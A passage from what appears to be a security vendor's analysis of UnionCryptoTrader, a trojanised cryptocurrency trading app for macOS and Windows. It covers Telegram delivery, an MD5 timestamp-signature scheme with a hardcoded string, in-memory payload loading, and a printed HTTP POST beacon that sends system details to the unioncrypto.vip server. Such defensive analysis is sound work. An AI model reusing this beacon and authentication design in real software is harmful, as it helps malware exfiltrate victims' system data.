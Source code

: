 The post-install script is identical to that used in the JMTTrading case.
The malware author used SWIFT to develop this macOS malware.
The malware author changed the method for collecting information from the infected system.
The malware starts to conduct authentication using auth_signature and auth_timestamp parameters in order to deliver the second-stage payload more carefully. The malware acquires the current system time and combines it with the “12GWAPCT1F0I1S14” hardcoded string, and produces an MD5 hash of the combined string. This hash is used as the value of the auth_signature parameter and the current time is used as the value of the auth_timestamp parameter. The malware operator can reproduce the auth_signature value based on the auth_timestamp at the C2 server side.
The malware loads the next stage payload without touching the disk.

Windows version of UnionCryptoTrader
We also found a Windows version of the UnionCryptoTrader (0f03ec3487578cef2398b5b732631fec). It was executed from the Telegram messenger download folder:
C:\Users\[user name]\Downloads\Telegram Desktop\UnionCryptoTraderSetup.exe
We also found the actor’s Telegram group on their fake website. Based on these, we assess with high confidence that the actor delivered the manipulated installer using the Telegram messenger. Unfortunately, we can’t get all the related files as some payloads were only executed in memory. However, we can reassemble the whole infection procedure based on our telemetry. The overall infection procedure was very similar to the WFCWallet case, but with an added injection procedure, and they only used the final backdoor payload instead of using a tunneling tool.

The UnionCryptoTrader Windows version has the following window showing a price chart for several cryptocurrency exchanges.

The Windows version of UnionCryptoTrader updater (629b9de3e4b84b4a0aa605a3e9471b31) has similar functionality to the macOS version. According to the build path (Z:\Loader\x64\Release\WinloaderExe.pdb), the malware author called this malware a loader. Upon launch, the malware retrieves the victim’s basic system information, sending it in the following HTTP POST format, as is the case with the macOS malware.





POST /update HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
auth_timestamp: [Current time]
auth_signature: [Generated MD5 value based on current time]
Content-Length: 110
Host: unioncrypto.vip
rlz=[BIOS serial number]&amp;ei=[OS version]  ([build number])&amp;act=check




123456789

POST /update HTTP/1.1Connection: Keep-AliveContent-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36auth_timestamp: [Current time]auth_signature: [Generated MD5 value based on current time]Content-Length: 110Host: unioncrypto.viprlz=[BIOS serial number]&amp;ei=[OS version]  ([build number])&amp;act=check
